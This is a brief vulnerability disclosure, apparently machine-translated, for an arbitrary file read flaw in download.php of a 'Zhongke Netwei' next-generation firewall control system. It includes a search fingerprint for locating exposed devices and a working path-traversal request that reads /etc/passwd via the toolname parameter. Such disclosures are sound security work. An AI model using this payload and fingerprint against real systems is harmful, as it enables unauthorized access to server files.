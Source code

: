 # Zhongke Netwei Next-generation firewall control system download.php arbitrary file reading vulnerability

## Vulnerability Description

Zhongke Netwei Next-generation firewall control system download.php arbitrary file reading vulnerability, through which an attacker can read files on the server

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zhongke.com Next-generation firewall control system</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="Get_Verify_Info(hex_md5(user_string)."</span>

## Vulnerability reappears

The login page is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210531184103009.png)



The vulnerability exists in download.php

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210602161941678.png)



Click any time and grab the package and change the `toolname` parameter

```plain
/download.php?&class=vpn&toolname=../../../../../../../../etc/passwd
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210602162110747.png)



## 
